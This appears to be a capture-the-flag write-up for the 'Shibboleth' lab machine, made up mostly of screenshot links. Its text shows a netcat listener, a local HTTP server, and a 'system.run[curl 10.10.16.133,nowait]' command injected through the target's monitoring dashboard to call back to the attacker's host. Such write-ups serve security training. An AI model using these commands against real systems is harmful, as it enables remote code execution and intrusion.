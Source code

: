 ![image](https://user-images.githubusercontent.com/58165365/162931660-331f4984-6e61-4726-bac6-052ce9af0cb8.png)

# Login to dashboard

![image](https://user-images.githubusercontent.com/58165365/164891099-5a3fc611-5dbf-4219-9369-64d153048c0e.png)

![image](https://user-images.githubusercontent.com/58165365/164891140-4e175f8c-ec90-4325-941e-0b29c40d4158.png)

![image](https://user-images.githubusercontent.com/58165365/164891282-16d8196f-ebc4-4308-8c23-92a33b127989.png)

![image](https://user-images.githubusercontent.com/58165365/164891457-4cbdfc93-a682-4375-a1e1-c9c31d7415f7.png)

![image](https://user-images.githubusercontent.com/58165365/164891487-3dd870cd-d795-45d1-92dc-65708af1cc2a.png)

![image](https://user-images.githubusercontent.com/58165365/164891934-f105fe9b-6d4d-4fce-9d9a-2ea006f84d72.png)

![image](https://user-images.githubusercontent.com/58165365/164891942-14c2b76c-1a74-4fb3-860a-771878edb412.png)

![image](https://user-images.githubusercontent.com/58165365/164891956-7a8ba144-c9db-47e2-8245-adab473985aa.png)

```bash
➜  Shibboleth nc -lnvp 9999
listening on [any] 9999 ...
```

![image](https://user-images.githubusercontent.com/58165365/164892189-e7d70961-6b95-4095-859d-5ca62e222abb.png)

![image](https://user-images.githubusercontent.com/58165365/164892487-4724eb96-c756-4566-b6a6-6159288ddb3c.png)

![image](https://user-images.githubusercontent.com/58165365/164892527-0604959c-e411-4806-aff8-87239d5f9aa7.png)

---

![image](https://user-images.githubusercontent.com/58165365/164910472-9689cccd-7d86-4db9-9d43-ef68e250154c.png)

![image](https://user-images.githubusercontent.com/58165365/164910519-43edfe56-4d12-42d4-a53a-8c219dea49b0.png)

![image](https://user-images.githubusercontent.com/58165365/164913241-16d4b89a-a4c1-4552-9df3-40b6d6e37bc9.png)

`system.run[curl 10.10.16.133,nowait]`
![image](https://user-images.githubusercontent.com/58165365/164910329-1db3d8cc-ced1-4e52-a62d-9c9ded99c544.png)

```bash
➜  Shibboleth serve
Serving files from /home/kali/Desktop/Shibboleth
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![image](https://user-images.githubusercontent.com/58165365/164910401-8c3a5ac3-96d8-492c-a3b0-7931c153f769.png)
